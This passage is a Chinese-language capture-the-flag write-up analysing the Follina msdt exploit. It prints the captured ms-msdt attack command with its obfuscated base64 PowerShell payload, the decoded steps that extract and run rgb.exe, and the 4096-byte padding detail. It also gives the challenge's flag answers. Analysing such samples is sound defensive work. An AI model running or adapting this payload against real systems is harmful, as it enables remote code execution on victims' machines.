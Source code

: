 :::spoiler Flag
Flag: `document.xml.rels`
:::
## ==Q5==
> The extracted URL accesses a HTML file that triggers the vulnerability to execute a malicious payload. According to the HTML processing functions, any files with fewer than `<Number>` bytes would not invoke the payload. Submit the `<Number>` (Format: Number of Bytes)
### Recon
這一題是看[^wp1]的說明才知道答案的，首先我並不知道他中間傳輸的command為何，並且根據Fortinet的報告[^wp4]，可以知道這一個攻擊的具體poc以及mitigation，以下是從any.run project擷取下來的攻擊command，
```bash!
"C:\WINDOWS\system32\msdt.exe" ms-msdt:/id PCWDiagnostic /skip force /param "IT_RebrowseForFile=cal?c IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'JGNtZCA9ICJjOlx3aW5kb3dzXHN5c3RlbTMyXGNtZC5leGUiO1N0YXJ0LVByb2Nlc3MgJGNtZCAtd2luZG93c3R5bGUgaGlkZGVuIC1Bcmd1bWVudExpc3QgIi9jIHRhc2traWxsIC9mIC9pbSBtc2R0LmV4ZSI7U3RhcnQtUHJvY2VzcyAkY21kIC13aW5kb3dzdHlsZSBoaWRkZW4gLUFyZ3VtZW50TGlzdCAiL2MgY2QgQzpcdXNlcnNccHVibGljXCYmZm9yIC9yICV0ZW1wJSAlaSBpbiAoMDUtMjAyMi0wNDM4LnJhcikgZG8gY29weSAlaSAxLnJhciAveSYmZmluZHN0ciBUVk5EUmdBQUFBIDEucmFyPjEudCYmY2VydHV0aWwgLWRlY29kZSAxLnQgMS5jICYmZXhwYW5kIDEuYyAtRjoqIC4mJnJnYi5leGUiOw=='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe IT_AutoTroubleshoot=ts_AUTO"
```
根據[^wp2]的說明，這是使用 ms-msdt 的架構，使用參數 IT_BrowseForFile 呼叫本機套件 PCWDiagnostic，其中包含嵌入在 $() 中的 PowerShell 語法，用base64 decode過後的關鍵payload如下:
```bash
$cmd = "c:\windows\system32\cmd.exe";
Start-Process $cmd -windowstyle hidden -ArgumentList "/c taskkill /f /im msdt.exe";
Start-Process $cmd -windowstyle hidden -ArgumentList "/c cd C:\users\public\&&for /r %temp% %i in (05-2022-0438.rar) do copy %i 1.rar /y&&findstr TVNDRgAAAA 1.rar>1.t&&certutil -decode 1.t 1.c &&expand 1.c -F:* .&&rgb.exe";
```
以下是根據[^wp2]針對每一個步驟做簡短說明:
> Starts hidden windows to:
> Kill msdt.exe if it is running
> Loop through files inside a RAR file, looking for a Base64 string for an encoded CAB file
> Store this Base64 encoded CAB file as 1.t
> Decode the Base64 encoded CAB file to be saved as 1.c
> Expand the 1.c CAB file into the current directory, and finally:
> Execute rgb.exe (presumably compressed inside the 1.c CAB file)

這是一個很嚴重的風險等級，victim只要點擊相關的檔案，就會觸發一系列攻擊的payload，也可以看[^wp5]示範如何利用該漏洞pwn下一台主機，讓攻擊者達到RCE的poc影片，影片中提到使用者只要點擊攻擊文件，甚至只是用內建的預覽功能，也可以在沒有點擊的情況下在背後run一系列payload

### Exploit
這一題根據[^wp2]的說明以及[^wp3-twitter]的實測，會發現只要經過padding使得總字串的長度大於等於4096就不會觸發核心的攻擊payload，原因是 HTML 處理函數的Hardcoded buffer的大小就是4096，所以如果大於這個數量，payload就沒辦法invoke進去

:::spoiler Flag
Flag: `4096`
:::
## ==Q6==
> After execution, the sample will try to kill a process if it is already running. What is the name of this process? (Format: filename.ext)
### Recon
根據前一題的描述，以及base64 decode過後的結果會發現如果process中有msdt.exe的話就先kill掉
